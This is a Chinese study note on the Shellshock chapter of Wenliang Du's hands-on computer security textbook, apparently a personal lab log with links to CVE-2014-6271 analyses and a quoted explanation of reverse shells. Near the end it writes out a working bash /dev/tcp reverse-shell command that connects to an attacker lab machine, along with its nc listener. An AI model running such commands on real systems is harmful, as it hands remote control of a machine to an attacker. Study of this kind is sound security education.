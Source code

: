 来源：《Computer Security》A Hands-on Approach   --- Wenliang Du

**Chapter03 Shellshock  Attack**

书上的内容是很好的。这里仅仅做个学习笔记。

这是实打实的一个以前的漏洞。能复现这个漏洞，感觉还不错。

**这个漏洞修复了，便没有。所以，这一章节Shellshock Attack 不是重点。reverse shell 是重点。**

还有便是要补充PHP与数据库。

比较尴尬的是，虽然复现了bash的漏洞；单独使用了反弹shell；但是CGI+bash4.1+reverse shell 并没有得到复现。

**这一章的思路：bash的漏洞介绍 + 符合利用漏洞的CGI + 使用reverse shell**

---

[toc]

# 漏洞“破壳”（CVE-2014-6271）分析

网上的文章，已经写的相当清楚了。

[Bash远程代码执行漏洞“破壳”（CVE-2014-6271）分析](https://www.antiy.com/response/CVE-2014-6271.html)

上面文章的条理性很好。

漏洞的编号+发布的时间+受影响的平台及版本+影响范围+漏洞原理+漏洞验证方法+漏洞的影响+漏洞的修复。

现在如果想复现这个实验，可以参考：[详解ShellShock 漏洞复现原理，内附ShellShock的修复方法](https://blog.csdn.net/Anprou/article/details/72819989#t4)

<br>

<br>

# CGI 介绍

略。我不懂。可以参考：[万法归宗——CGI](https://zhuanlan.zhihu.com/p/25013398) 、[cgi原理 ](https://langzi989.github.io/2017/05/04/cgi%E5%8E%9F%E7%90%86/)

<br>

<br>

# shell 反弹

参考：[shell 反弹总结](https://www.cnblogs.com/bonelee/p/11156338.html)

>想要搞清楚这个问题，首先要搞清楚什么是反弹，为什么要反弹。
假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。

> 那么什么情况下正向连接不太好用了呢？
> 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。它的ip会动态改变，你不能持续控制。
> 2.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
> 3.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

反弹就很好理解了， 攻击者指定服务端，**受害者主机主动连接攻击者的服务端程序**，就叫反弹连接。

我目前晓得是上面使用的皮毛。

文件描述符与重定向，可以参考：[Linux 标准文件描述符](https://www.cnblogs.com/zoulongbin/p/7080324.html)

```shell
#attack machine :10.0.2.6
#监听8080端口（可以换个端口，这个端口比较常见）
nc -lvvp 8080
```

```shell
#victim machine :10.0.2.5
bash -i > /dev/tcp/10.0.2.6/8080 0<&1 2>&1
```

![image-20200412120245721](Shellshock_Attack.assets/image-20200412120245721.png)

![image-20200412120350644](Shellshock_Attack.assets/image-20200412120350644.png)



# 参考文章

--漏洞参考：

[Bash远程代码执行漏洞“破壳”（CVE-2014-6271）分析](https://www.antiy.com/response/CVE-2014-6271.html)

[详解ShellShock 漏洞复现原理，内附ShellShock的修复方法](https://blog.csdn.net/Anprou/article/details/72819989#t4)

--CGI参考：（没咋看懂）

[万法归宗——CGI](https://zhuanlan.zhihu.com/p/25013398)

[cgi原理 ](https://langzi989.github.io/2017/05/04/cgi%E5%8E%9F%E7%90%86/)

--反弹shell:

[【技术分享】linux各种一句话反弹shell总结——攻击者指定服务端，受害者主机（无公网IP）主动连接攻击者的服务端程序（CC server），开启一个shell交互，就叫反弹shell。](https://www.cnblogs.com/bonelee/p/11156338.html)

--其他

[在腾讯云 Ubuntu18.04 安装配置 MySQL 5.7（踩坑警告⚠️）](https://zhuanlan.zhihu.com/p/77765825)

[Linux 标准文件描述符](https://www.cnblogs.com/zoulongbin/p/7080324.html)

[CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)